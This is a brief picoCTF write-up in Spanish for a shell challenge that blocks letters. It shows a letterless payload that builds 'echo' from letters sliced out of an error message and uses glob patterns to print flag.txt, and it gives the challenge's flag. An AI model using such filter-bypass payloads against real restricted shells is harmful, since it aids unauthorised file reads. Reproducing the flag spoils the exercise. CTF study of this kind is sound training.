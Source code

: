Description:
The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of the multiverse is in a universe where keyboards only have numbers and (most) symbols.


**Solución 1**

```
Ejecutas un comando inválido para guardar letras en una variable.  
  
Usas esas letras para construir la palabra echo.  
  
Con echo "$(<archivo)" imprimes el contenido del archivo flag.txt.  
  
Así ves la flag sin escribir letras directamente.

  
_1=`$ 2>&1`  
./*/*  
/???/?${_1:9:1}?${_1:10:1} "$(< ./*/????.???)"


```


## Respuesta: **picoCTF{7h15_mu171v3r53_15_m4dn355_36a674c0}
